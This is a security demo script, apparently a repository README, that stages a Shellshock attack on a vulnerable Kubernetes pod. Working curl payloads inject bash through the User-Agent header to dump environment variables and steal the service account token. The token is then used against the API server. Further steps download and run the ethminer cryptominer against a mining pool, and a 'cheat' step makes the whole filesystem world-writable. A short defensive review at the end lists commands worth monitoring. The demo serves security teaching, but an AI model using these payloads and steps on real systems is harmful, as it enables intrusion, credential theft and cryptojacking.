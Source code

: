 # Initial Access to Credential Discovery to Privledge escalation and Impact

This demonstration will showcase initial access as part of the MITRE ATT&CK framework. This will showcase Exploition of a Public-Facing Application insight of a container image and 


This demo will also showcase practical security controls with a focus on runtime security controls. 

## What is shellshock?

Improper input validation bash code allowed users to put trailing commands after the definition of environment variables. 

You read this and first think - what uses environment variables.....crap. TONS OF THINGS! SSH, Apache modules, etc.

This meant remote code execution on apaches mod_cgi(d) library used in web servers.

CGI stands for Common Gateway Interface. It is a way to let Apache execute script files and send the
output to the client. So we just need something that will use bash.


# Demo Script


## Setup

This setup will provide the foundational layer and jumping point from which you will attck Kubernetes. It will also deploy a target pod that we will move to in order to steal sensitive data. 


### Deploy Vulnerable Pod for Initial Access

*Note: It's important that this is not exposed to the public internet and highly reccomended to never be run in privlegded mode. (You will actually be hacked if running in privledged mode and publically expose this)* It's reccomended that when using this you only port forward.


1. Deploy a vulnerable pod based on the vulnerables docker repo shellshock vulnerability. This will be our initial access point for the attack. 

```
kubectl run shellshock --labels=app=shellshock,team=evilcasper --image=vulnerables/cve-2014-6271 -n default
```

```
oc exec -it shellshock -- sh 
```

Cheat so you have permissions:

```
chmod 777 -R  /
```

```
chown www-data:www-data -R /
```

```
exit
```


2. Port forward to the pod so that you don't expose a pod vulnerable to shellshock to a network attack vector. 

```
kubectl port-forward shellshock 8080:80 -n default &
```

## Prelude 

You are playing the role of an attacker targeting an externally facing website. 

### Exploit and gather information.

3. Test to ensure that you can exploit

```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'echo "pwnage"'" \
http://localhost:8080/cgi-bin/vulnerable

```

Sad can't do all the things.


curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'whoami'" \
http://localhost:8080/cgi-bin/vulnerable


Check if I can get access to secrets or find out more about the environment. 

curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'env'" \
http://localhost:8080/cgi-bin/vulnerable

curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'ls -ltr /bin/'" \
http://localhost:8080/cgi-bin/vulnerable

Okay this looks limited. Am I a container? Lets check if I can access a service account secret.


curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /var/run/secrets/kubernetes.io/serviceaccount/token'" \
http://localhost:8080/cgi-bin/vulnerable

PWNAGE.

Ultimately you don't have enough permissions to escape because you are the www-data user. However, if you are the root user in a container this is a different story.

Assume you actually know what the Kubernetes API server endpoint is. You now have enough information to authenticate to the API server.

EXIT

export TOKEN=<insert-token>

oc login <API-SERVER> --token=$TOKEN 

So what can I do. I don't want to set off a ton of alarms so I need to figure out who I am and what permissions I have before I start doing things. I'll do this a bit more slowly.

kubectl auth can-i create po/exec

kubectl auth can-i create po

So I can create pods and I can exec into them. Exec is means of execution.

Lets go back to shellshock to see what I could have done if I were root.

apt-get install wget

Okay so it looks like I can't reach out because I'm using an older package system. So I need to update this. Lets delete the package source list

rm /etc/apt/sources.list

Lets update the package source list

printf "deb http://archive.debian.org/debian wheezy main\ndeb http://security.debian.org/debian-security wheezy/updates main\n" >> /etc/apt/sources.list

Update everything so I can download packages.

apt-get update

And now I can download tools to laterally move and download tools.

apt-get install wget curl -y

So at this point it really depends what I want to do. Now that I've downloaded tools I need I can use them to do a ton of things. wget to download other tools. curl make api calls. oc to interface with an openshift or kubernetes api.

So now I'm going to install a cryptominer.

First I'll go to /tmp

cd /tmp

And then I'm going to download ethminer a popular solution used to miner etherium.

wget https://github.com/ethereum-mining/ethminer/releases/download/v0.18.0/ethminer-0.18.0-cuda-8-linux-x86_64.tar.gz

Unzip that.

tar -xvzf ethminer-0.18.0-cuda-8-linux-x86_64.tar.gz


/bin/ethminer --farm-retries 9999 -U --farm-recheck -P stratum1+ssl://ETH_WALLET.WORKERNAME@us2.ethermine.org:5555

Now I can have some fun. All I need to do is replace ETH_WALLET with my wallet, which is used to pay me and my workername

Worker names are used by mining pools to identify your account and the hashrate contribution of each individual miner.

A mining farm is a location, usually a large space, housing several computers dedicated to mining one or more cryptocurrencies.

Stratum1+ssl is the protocol used with encryption.

Check site. Port forward if needed.

Now lets review what I did from a security perspective.

1. I tested that I had access, checked who I was and looked for addtional information. So I could have monitored for a few commands that my app reasonably never would have ran.

- env
- whoami

2. I did an ingress tool transfer that allowed me to ge the tools I needed for an attack. I can monitor for commands that do this as well.

- wget
- curl
- apt-get
- yum

3. I accessed the Kubernetes API server and ran malcious code through execs. I can block execs directly and monitor activity from execs.
